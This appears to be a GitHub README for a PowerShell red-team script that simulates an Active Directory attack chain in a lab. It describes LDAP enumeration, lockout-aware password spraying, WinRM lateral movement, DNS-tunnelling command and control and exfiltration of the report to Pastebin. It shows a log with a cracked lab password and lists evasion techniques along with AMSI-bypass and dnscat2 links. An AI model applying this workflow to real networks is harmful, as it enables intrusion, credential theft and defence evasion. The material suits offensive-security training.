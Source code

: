 
### Description
This script simulates a multi-stage attack chain in an Active Directory environment. It performs user enumeration through LDAP, conducts password spraying while avoiding account lockouts, establishes lateral movement via WinRM, and sets up a DNS-based command-and-control channel.
All actions are carefully logged and the report is securely exported to Pastebin.

### Attack Chain Diagram
![chain-attack-diagram](chain-attack-diagram.png)

### Example Output
```
[2025-05-19 16:37:25] [INFO] Script started.
[2025-05-19 16:37:25] [INFO] Stage 1: Generating user list.
[2025-05-19 16:37:25] [INFO] Lockout threshold retrieved: 5.
[2025-05-19 16:37:25] [INFO] Skipping Administrator because it is an excluded user. Skipping...
[2025-05-19 16:37:25] [INFO] Skipping Guest because it is an excluded user. Skipping...
[2025-05-19 16:37:25] [INFO] User vagrant has 5 bad password attempts. Skipping...
[2025-05-19 16:37:25] [INFO] Skipping krbtgt because it is an excluded user. Skipping...
[2025-05-19 16:37:25] [INFO] User SEVENKINGDOMS$ has 5 bad password attempts. Skipping...
[2025-05-19 16:37:25] [INFO] Couldnt find arya.stark bad password count. Skipping...
[2025-05-19 16:37:25] [INFO] Added user eddard.stark to user list.
[2025-05-19 16:37:25] [INFO] User catelyn.stark has 4 bad password attempts. Skipping...
[2025-05-19 16:37:25] [INFO] Added user robb.stark to user list.
[2025-05-19 16:37:25] [INFO] Couldnt find sansa.stark bad password count. Skipping...
[2025-05-19 16:37:25] [INFO] Couldnt find brandon.stark bad password count. Skipping...
[2025-05-19 16:37:25] [INFO] Couldnt find rickon.stark bad password count. Skipping...
[2025-05-19 16:37:25] [INFO] Couldnt find hodor bad password count. Skipping...
[2025-05-19 16:37:25] [INFO] Couldnt find jon.snow bad password count. Skipping...
[2025-05-19 16:37:25] [INFO] Couldnt find samwell.tarly bad password count. Skipping...
[2025-05-19 16:37:25] [INFO] Couldnt find jeor.mormont bad password count. Skipping...
[2025-05-19 16:37:25] [INFO] Couldnt find sql_svc bad password count. Skipping...
[2025-05-19 16:37:25] [INFO] Stage 2: Performing password spray.
[2025-05-19 16:37:25] [SUCCESS] SUCCESS! User:eddard.stark Password:FightP3aceAndHonor!
[2025-05-19 16:37:25] [INFO] Invalid credentials for robb.stark
[2025-05-19 16:37:25] [INFO] Stage 3: Creating PS-Remoting sessions on computers with open WinRM port.
[2025-05-19 16:37:29] [INFO] WinRM port open on computer: WINTERFELL.
[2025-05-19 16:37:29] [INFO] WinRM port open on computer: CASTELBLACK.
[2025-05-19 16:37:29] [SUCCESS] Computers WINTERFELL, CASTELBLACK are open to PowerShell remoting.
[2025-05-19 16:38:09] [SUCCESS] Successfully connected to CASTELBLACK with user eddard.stark.
[2025-05-19 16:38:09] [INFO] Stage 4: Executing DNS tunneling persistence.
[2025-05-19 16:38:09] [SUCCESS] Started DNS tunneling job with ID: 9 and Status: Running on session CASTELBLACK
[2025-05-19 16:38:09] [INFO] Script finished.
```

### Evasion Techniques Used
**Avoid Lockouts:** Checks bad password count before login attempts to prevent account lockouts.
**Living off the Land:** Leverages built-in Windows tools and PowerShell cmdlets rather than external tools.
**Stealth Communication:** Utilizes DNS tunneling for command and control, blending with normal network traffic.
**Fileless Operation:** Uses PowerShell's in-memory execution capabilities to avoid writing files to disk.

## Resources
- https://github.com/M0M3NTUM44/AMSIReflectionCrypt/
- https://github.com/lukebaggett/dnscat2-powershell